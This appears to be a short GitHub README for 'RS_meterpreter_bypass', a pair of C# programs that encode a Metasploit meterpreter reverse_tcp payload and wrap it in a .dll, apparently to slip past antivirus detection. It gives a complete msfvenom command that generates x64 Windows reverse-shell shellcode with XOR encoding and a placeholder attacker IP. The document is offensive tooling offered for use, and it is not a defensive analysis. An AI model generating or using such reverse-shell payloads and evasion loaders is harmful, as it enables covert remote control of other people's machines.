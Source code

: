 # RS_meterpreter_bypass
These two C# programs are used to encode and create a .dll file from a starting metasploit encoded reverse_tcp payload.

# How to use
Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic
<msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic>
